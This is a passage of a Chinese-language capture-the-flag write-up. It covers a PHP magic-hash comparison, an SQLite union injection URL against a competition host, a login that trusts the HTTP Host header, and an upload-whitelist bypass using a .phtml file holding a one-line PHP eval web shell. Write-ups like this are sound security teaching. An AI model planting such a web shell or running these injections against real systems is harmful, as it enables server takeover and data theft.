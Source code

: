 前面是弱类型比较，老梗了，这次是sha1和md5比较，随便跑跑就有了

[https://www.whitehatsec.com/blog/magic-hashes/](https://www.whitehatsec.com/blog/magic-hashes/)

接下来就是sqlite的注入了，一般来说，我们注入sqlite数据库，要从sqlite_master获取建表的语句以及表名，但是这里把sql列删除了，只能获得返回的表名

一共有两个表，flag表和my_wallets表，剩下的问题就是列了...但是想了很多办法都没办法在sqlite中跑，最后随手试了试id....

```
http://218.2.197.235:23723/admin.php?query=-1 union SELECT id FROM flag
```

## Be Logical ##

稍后在整理吧

## pictures wall ##

感觉是个弱智题目，首先是需要登录为root，但是随便登录进去的是个没用的账户，什么都改不了，结果是在登录的时候修改host为127.0.0.1，从代码里看是这样的

```
<?php
    require_once("./waf.php");
    if(isset($_POST["username"]) && isset($_POST["password"])){
        session_start();
        $ip = $_SERVER['HTTP_HOST'];
        if($ip == "::1" || $ip == "127.0.0.1"){
            $_SESSION["token"] = "0";
            header("Location: index.php");
        }else{
            $key = $_POST["username"] . "~:" . $_POST["password"];
            $_SESSION["token"] = base64_encode($key);
            header("Location: index.php");
        }
    }else{
        header("Location: login.html");
        exit();
    }
?>
```

然后是关键部分了，也就是绕过上传文件的waf，这里完全是白名单检测的，只有phtml可以不被改名

![image_1bb3e0eq5ppbvk13rf1nrqhjn2o.png-188.2kB][6]

....迷一样的代码，上传图片，然后修改后缀为phtml，在图片后加入

```
<script language="php"> @eval($_POST[ddog])</script>
```

getshell


## chall 1 2 ##


  [1]: http://static.zybuluo.com/LoRexxar/g723vz1mg3ggwnzyibo9yf74/image_1bb32tqf61up77bn1mgpre7c4j9.png
  [2]: http://static.zybuluo.com/LoRexxar/eufulrcwusgaimxpspk9ukra/image_1bb32ubhv13cp1s2u1biup751ra9m.png
  [3]: http://static.zybuluo.com/LoRexxar/5jeqqi6bvoku72l77d3c0zsv/image_1bb32up8j1di9h6p1eg97fleh13.png
  [4]: http://static.zybuluo.com/LoRexxar/ex5ltlcnb355v32vrqus56g5/image_1bb35c0pc1tnh19vi150lh7ma51u.png
  [5]: http://static.zybuluo.com/LoRexxar/46ouk2f7idkxudoc57cy3kg5/image_1bb35dook13ad2va11hr1g1q1kg52b.png
  [6]: http://static.zybuluo.com/LoRexxar/njo0c3o4x7ye7zb1r9exlt8n/image_1bb3e0eq5ppbvk13rf1nrqhjn2o.png
  [7]: http://static.zybuluo.com/LoRexxar/btey08y9hxtcmryxt0ojtntl/%7B2C8B3DAC-ABA2-1DE1-B5E4-5084A09E2F83%7D.png